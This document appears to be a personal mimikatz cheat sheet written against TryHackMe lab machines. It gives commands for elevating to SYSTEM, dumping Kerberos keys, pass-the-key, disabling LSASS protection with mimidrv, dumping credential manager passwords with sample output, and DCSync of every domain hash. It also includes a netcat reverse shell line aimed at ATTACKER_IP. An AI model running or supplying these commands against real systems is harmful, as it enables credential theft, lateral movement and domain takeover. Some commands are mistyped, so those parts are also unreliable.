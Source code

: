 
### Required:
- NT AUTHORITY SYSTEM priveleges
- mimikatz binary on the system (location: `/usr/share/mimikatz`)

### Setting up
Do this before any of the next options
```
privilege::deubg    // NOTE: only follow through if response is "[20] OK", otherwise (when it throws an error) commands will run but not work correctly.
// Possible error: ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061 --> not ran as admin

token::elevate      // Impersonates admin token
```

### Dumping kerberos keys + pass the key
(pass the key is also called "Overpass the hash")
```
sekurlsa::ekeys
token::revert                                                                 // required for passing the hash
sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"COMMAND"          // With RC4 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"COMMAND"    // With AES128 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"COMMAND"    // With AES256 hash
```
Note: if you have `nc64.exe` on the system, use the following payload for a reverse shell:
```
c:\Windows\Temp\nc64.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT
```
Note 2: because the "credentials" are injected after you've passed the key, if `winrs.exe` is available, you can use it without giving credentials:
```
winrs.exe -r:THMIIS.za.tryhackme.com cmd      // Spawns a shell on the THMIIS machine of the za.tryhackme.md domain.
```

### Dumping logonpasswords / handling "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
```
mimikatz # sekurlsa::logonpasswords  
// If this gives the "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
// When you get this error, it means the LSASS is protected. You need the "mimidrv.sys" for this. (included in the directory)

mimikatz # !+        
// Loads the mimidrv
Expected output:
"
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
"
mimikatz # !processprotect /process:lsass.exe /remove
// Removes the protected state from the LSASS
Expected output:
"
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
"
mimikatz # sekurlsa::logonpasswords  
// It should work now.
```

### Windows credential manager
```
sekurlsa::credman  // Dumps all windows credential manager credentials. (saved windows credentials)
```
This will get most credentials, but not the Web credentials. for these, use `Get-WebCredentials.ps1` (you can check if they exist using `vaultcmd /listcreds:"Web Credentials" /all`)
#### Example output
```
PS C:\Tools\Mimikatz> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

736     {0;000003e7} 1 D 26914          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0025ebf6} 2 F 4320524     THM\thm S-1-5-21-1966530601-3185510712-10604624-1114    (16g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 4369062     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # sekurlsa::credman

Authentication Id : 0 ; 34477 (00000000:000086ad)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:59 AM
SID               : S-1-5-96-0-0
        credman :

Authentication Id : 0 ; 31779 (00000000:00007c23)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:48 AM
SID               :
        credman :

Authentication Id : 0 ; 2485238 (00000000:0025ebf6)
Session           : RemoteInteractive from 2
User Name         : thm
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 8/11/2023 11:44:59 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
        credman :
         [00000000]
         * Username : thm
         * Domain   : 10.10.237.226
         * Password : jfxKruLkkxoPjwe3
         [00000001]
         * Username : thm.red\thm-local
         * Domain   : thm.red\thm-local
         * Password : Passw0rd123

Authentication Id : 0 ; 2454892 (00000000:0025756c)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 8/11/2023 11:44:57 AM
SID               : S-1-5-90-0-2
```

### Active Directory DCSync attack
###### Required permissions: Domain Replication permissions (Domain Controller / Domain Administrator)
To dump one user, use:
```
privilege::elevate
lsadump::dcsync /domain:DOMAIN /user:USERNAME@DOMAIN                // Note: the ERROR_NOT_UNIQUE error means the DOMAIN name isn't specified
```

To dump everything:
```
privilege::elevate
log dcdump.txt
lsadump::dcsync /domain:DOMAIN /all
```
